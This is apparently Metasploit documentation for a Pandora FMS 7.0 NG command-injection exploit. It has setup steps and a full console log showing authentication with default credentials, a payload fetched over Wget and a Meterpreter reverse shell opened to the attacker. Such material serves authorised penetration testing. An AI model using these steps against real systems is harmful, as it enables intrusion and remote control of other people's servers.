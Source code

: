 ## Vulnerable Application

Pandora FMS (for Pandora Flexible Monitoring System) is software for
monitoring computer networks. Pandora FMS allows monitoring in a visual
way the status and performance of several parameters from different
operating systems, servers, applications and hardware systems such
as firewalls, proxies, databases, web servers or routers.

This module exploits a vulnerability found in Pandora FMS 7.0 NG and lower.
The vulnerability exists on the `net_tools.php` component, due to the insecure
usage of the `system()` PHP function.

This module has been tested with [Pandora FMS 7.0 NG](https://sourceforge.net/projects/pandora/files/Pandora%20FMS%207.0NG/Final/Pandora_FMS_7.0_NG_VmWare_ovf.zip/download)

## Verification Steps

Launch metasploit and set the appropriate options:

1.  Start `msfconsole`
2. `use exploit/linux/http/pandora_ping_cmd_exec`
3. `set RHOSTS <rhosts>`
4. `set LHOST <lhost>`
5. `set USERNAME <username>`
6. `set PASSWORD <password>`
7. `exploit`

## Options

  **USERNAME**

  The username for Pandora FMS.

  **PASSWORD**

  The password for Pandora FMS.


## Setup

https://pandorafms.com/docs/index.php?title=Pandora:Documentation_en:Installing

## Scenarios

 Tested Pandora FMS 7.0 NG on CentOS 7.3.1611

```
msf5 > use exploit/linux/http/pandora_ping_cmd_exec
msf5 exploit(linux/http/pandora_ping_cmd_exec) > set RHOSTS 192.168.215.128
RHOSTS => 192.168.215.128
msf5 exploit(linux/http/pandora_ping_cmd_exec) > set RHOSTS 192.168.1.12
RHOSTS => 192.168.1.12
msf5 exploit(linux/http/pandora_ping_cmd_exec) > set LHOST 192.168.1.5
LHOST => 192.168.1.5
msf5 exploit(linux/http/pandora_ping_cmd_exec) > set USERNAME admin
USERNAME => admin
msf5 exploit(linux/http/pandora_ping_cmd_exec) > set PASSWORD pandora
PASSWORD => pandora
msf5 exploit(linux/http/pandora_ping_cmd_exec) > exploit

[*] Started reverse TCP handler on 192.168.1.5:4444
[*] Exploiting...
[*] Using URL: http://0.0.0.0:8080/ksdtisFA
[*] Local IP: http://192.168.1.5:8080/ksdtisFA
[*] Attempting to authenticate using (admin:pandora)
[+] Successfully authenticated
[*] Attempting to retrieve session cookie
[+] Successfully retrieved session cookie: PHPSESSID=knoo75fs75l00ec74atu8ic3d0; clippy=deleted; clippy=deleted;
[*] Client 192.168.1.12 (Wget/1.14 (linux-gnu)) requested /ksdtisFA
[*] Sending payload to 192.168.1.12 (Wget/1.14 (linux-gnu))
[*] Sending stage (989416 bytes) to 192.168.1.12
[*] Meterpreter session 1 opened (192.168.1.5:4444 -> 192.168.1.12:54784) at 2020-03-09 15:38:25 +0300

[*] Command Stager progress - 131.25% done (147/112 bytes)
[*] Server stopped.

meterpreter >
```
